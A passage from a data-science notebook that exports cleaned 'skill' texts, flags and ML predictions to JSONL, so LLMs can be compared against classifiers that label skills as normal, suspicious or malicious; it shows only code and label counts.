                 index=range(1, 11)).to_csv(MODEL_DIR / "top10_shap_groups.csv")
if "shap_tables" in globals():
    pd.DataFrame({name: list(t.index[:10]) for name, t in shap_tables.items()},
                 index=range(1, 11)).to_csv(MODEL_DIR / "top10_shap.csv")
print("Saved to", MODEL_DIR)
summary.round(4)

NameError: name 'perms' is not defined

## 10. Export the data for the LLM comparison (RQ3)

Saves what the ML models used, so the LLMs (`llm_eval/`, `llm_comparison.ipynb`) get **exactly the same input**:
every cleaned skill (`full_clean` text + the 9 flags), whether it is in the train or test split, and every ML
model's prediction on the test split. Written to `llm_eval/data/` (git-ignored, about 190 MB).

Run Sections 1–6 first, **including 6.5** so the stacked models' test predictions are exported too (Section 7 is not needed). Run this cell again whenever the cleaning, the flags or the models change.

In [27]:
# Same skills, same cleaned text (TEXT_COL) and same flags as the ML models, plus every ML model's test predictions,
# so the LLMs (llm_eval/, llm_comparison.ipynb) are scored on exactly the same input and skills.
import json

LLM_DATA_DIR = Path("llm_eval") / "data"
LLM_DATA_DIR.mkdir(parents=True, exist_ok=True)

keep = ["id", "judgment", "source", "base_category", "primary_pattern", TEXT_COL, *FLAG_COLS]
llm_export = df[[c for c in keep if c in df.columns]].copy()
llm_export["split"] = np.where(llm_export["id"].isin(set(test_df["id"])), "test", "train")

# ML predictions on the test split (row order of test_df = order of test_preds); train rows get no prediction
ml_test_preds = pd.DataFrame({f"ml_{name}": test_preds[name] for name in model_names})
# the stacked models of Section 6.5 (same test rows, same order). Skipped if 6.5 was not run.
stack_names = list(stack_preds) if "stack_preds" in globals() else []
for name in stack_names:
    ml_test_preds[f"ml_{name}"] = stack_preds[name]
if not stack_names:
    print("Note: Section 6.5 was not run, so no stacked model is exported.")
ml_test_preds["id"] = test_df["id"].values
llm_export = llm_export.merge(ml_test_preds, on="id", how="left")
assert llm_export["id"].is_unique and (llm_export["split"] == "test").sum() == len(test_df)

llm_export.to_json(LLM_DATA_DIR / "skills_for_llm.jsonl", orient="records", lines=True, force_ascii=False)
llm_meta = {"text_col": TEXT_COL, "flag_cols": FLAG_COLS, "labels": LABELS, "best_model": best_name,
            "ml_models": model_names, "stack_models": stack_names,
            "random_state": RANDOM_STATE, "test_size": TEST_SIZE,
            "n_skills": len(llm_export), "n_test": int((llm_export["split"] == "test").sum()),
            "created": time.strftime("%Y-%m-%d %H:%M")}
(LLM_DATA_DIR / "skills_for_llm_meta.json").write_text(json.dumps(llm_meta, indent=2))
print(f"Saved {len(llm_export):,} skills ({llm_meta['n_test']:,} in the test split) -> {LLM_DATA_DIR}")
print(llm_export.groupby("split")["judgment"].value_counts().unstack()[LABELS])


Saved 5,498 skills (1,100 in the test split) -> llm_eval/data
judgment  normal  suspicious  malicious
split                                  
test         329         203        568
train       1314         811       2273
